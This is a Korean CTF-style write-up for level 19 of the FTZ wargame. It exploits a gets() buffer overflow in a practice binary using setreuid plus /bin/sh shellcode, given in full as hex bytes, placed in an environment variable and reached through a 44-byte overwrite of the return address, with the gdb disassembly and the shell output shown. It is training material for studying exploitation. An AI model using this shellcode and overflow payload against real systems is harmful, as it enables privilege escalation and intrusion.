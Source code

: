 # **FTZ LEVEL19**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```
그 전까지는 c 코드에서 권한 상승을 `setreuid`를 해주었다. 하지만 이 코드에는 권한상승이 없다. 여태까지 사용했던 쉘코드는 단순히 `/bin/sh` 명령어를 실행시켜주는 것 이였으므로 `setreuid` + `/bin/sh` 를 해주는 `shellcode`  를 사용하겠다.

사용한 `shellcode``는 이것이다.
>shellcode ( "/bin/sh" + "setreuid" )
```
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
`shellcode` 를 환경변수에 올린 다음 주소로 ret를 덮겠다. ( [환경변수 이용하기](https://github.com/papico0306/SystemHackingPractice/blob/master/FTZ_Solve/ftz11_solve.md "환경변수 이용하기") )
```
[level19@ftz level19]$ /tmp/ge EGG
EGG=0xbffffc2d
```

gdb로 분석하면
```
(gdb) disas main
Dump of assembler code for function main:
0x08048440 <main+0>:	push   ebp
0x08048441 <main+1>:	mov    ebp,esp
0x08048443 <main+3>:	sub    esp,0x28
0x08048446 <main+6>:	sub    esp,0xc
0x08048449 <main+9>:	lea    eax,[ebp-40]
0x0804844c <main+12>:	push   eax
0x0804844d <main+13>:	call   0x80482f4 <gets>
0x08048452 <main+18>:	add    esp,0x10
0x08048455 <main+21>:	sub    esp,0x8
0x08048458 <main+24>:	lea    eax,[ebp-40]
0x0804845b <main+27>:	push   eax
0x0804845c <main+28>:	push   0x80484d8
0x08048461 <main+33>:	call   0x8048324 <printf>
0x08048466 <main+38>:	add    esp,0x10
0x08048469 <main+41>:	leave  
0x0804846a <main+42>:	ret    
0x0804846b <main+43>:	nop    
0x0804846c <main+44>:	nop    
0x0804846d <main+45>:	nop    
0x0804846e <main+46>:	nop    
0x0804846f <main+47>:	nop    
End of assembler dump.
```
`buf` 의 위치가 `ebp-40` 이라는 것을 알았다.

## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| buf[40] | sfp[4] | ret[4] |
```

>Payload
```
(python -c "print 'A'*44+'\x2d\xfc\xff\xbf'";cat) | ./attackme 
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level19@ftz level19]$ (python -c "print 'A'*44+'\x2d\xfc\xff\xbf'";cat) | ./attackme 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-?
my-pass
TERM environment variable not set.

Level20 Password is "~~~~~~~~~".
```